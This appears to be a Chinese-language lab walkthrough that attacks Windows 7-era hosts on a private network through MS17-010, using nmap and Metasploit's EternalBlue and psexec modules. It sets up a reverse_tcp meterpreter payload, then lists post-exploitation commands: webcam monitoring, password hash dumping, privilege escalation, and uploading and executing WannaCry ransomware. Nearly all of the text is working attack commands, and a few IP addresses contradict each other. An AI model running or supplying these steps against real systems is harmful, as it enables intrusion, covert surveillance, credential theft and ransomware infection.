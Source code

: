 # 环境
宿主机:	192.168.19.1 
kali:	192.168.19.149
win32:	192.168.19.153（防火墙允许文件与打印机共享）
win64:	192.168.19.154（防火墙允许文件与打印机共享）

# 主机发现
nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open 
>nmap ms17-010 定向扫描,发现端口开放并存在ms17-010 漏洞

# 使用msf框架攻击win64
msfconsole 
>进入msf>
version
>确保MS
>架版本在 4.14.17以上,否则请apt-get install,search search ms17_010
>漏洞模块路径查询，搜索到了 4 个相关的插件：
>auxiliary/admin/smb/ms17_010_command
>auxiliary/scanner/smb/smb_ms17_010
>exploit/windows/smb/ms17_010_eternalblue
>exploit/windows/smb/ms17_010_psexec
>其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。
>注意到,msf的模块目录是在/usr/share/metasploit-framework/modules
use exploit/windows/smb/ms17_010_eternalblue
>调用攻击模块
options
>查看参数,并设置：
set RHOST 192.168.19.150
>设定攻击目标 
show payloads
set payload windows/x64/meterpreter/reverse_tcp
>配置攻击载荷 
set LHOST 192.168.19.149
>设置操作机地址,即kali本机地址
exploit
>发起攻击,也可以用run。出现win -success!就成功了。

# 可以试试以下操作，或者help
getuid，sysinfo
>查看系统信息
webcam_list
>看看被控制的电脑有没有摄像头,如果有用webcam_stream命令可以打开摄像头监控
route  
>查看路由表
screenshot 
>桌面截图，很卡
shell
>打开命令行，然后可以ipconfig/whoami/net user
ps
>看看开了哪些杀毒软件，内网一致
kill
hashdump
getsystem
>提权
upload wcry/wcry.ext c:\
upload wcry/FILE_ID.DIZ c:\
execute -f c:\wcry.exe
>上传和执行勒索病毒

# 使用msf框架攻击win32
use exploit/windows/smb/ms17_010_psexec
options
set RHOST 192.168.19.150
show payloads
set payload windows/meterpreter/reverse_tcp
options
set LHOST 192.168.16.149
set SMBUser aleecy
set SMBPass 0
exploit


# 更多参考：
http://www.sqlsec.com/2018/03/smb.html
https://blog.csdn.net/zmeixuan/article/details/77587370
http://www.freebuf.com/articles/system/132274.html

# 清理重载msf：
/etc/init.d/postgresql restart
reload_all





